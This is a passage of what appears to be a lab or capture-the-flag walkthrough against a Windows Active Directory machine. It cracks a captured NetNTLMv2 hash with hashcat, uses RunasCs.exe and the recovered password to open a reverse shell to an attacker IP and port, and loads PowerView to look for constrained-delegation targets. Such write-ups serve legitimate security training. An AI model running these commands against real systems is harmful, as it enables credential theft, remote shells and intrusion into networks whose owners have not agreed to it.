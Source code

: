 - Crack with hashcat:

```bash
hashcat -m 5600 hash_brady /usr/share/wordlists/rockyou.txt

```

![image29](../resources/1d6f68d67935478e9df0926537cacdcf.png)

- Upload RunasCs.exe and run:

```bash
.\RunasCs.exe tbrady 543BOMBOMBUNmanda cmd.exe -r 10.10.14.23:8888

```

![image30](../resources/321cdecdddcd4d06941d5c4003fa9dec.png)

- Set up listener:

![image31](../resources/539641d6d029425180003a52f25ee54b.png)

- Checking for Constrained Delegation vulnerabilities:

Upload PowerView.ps1

```powershell
. ./PowerView.ps1
Get-DomainComputer -TrustedToAuth

```

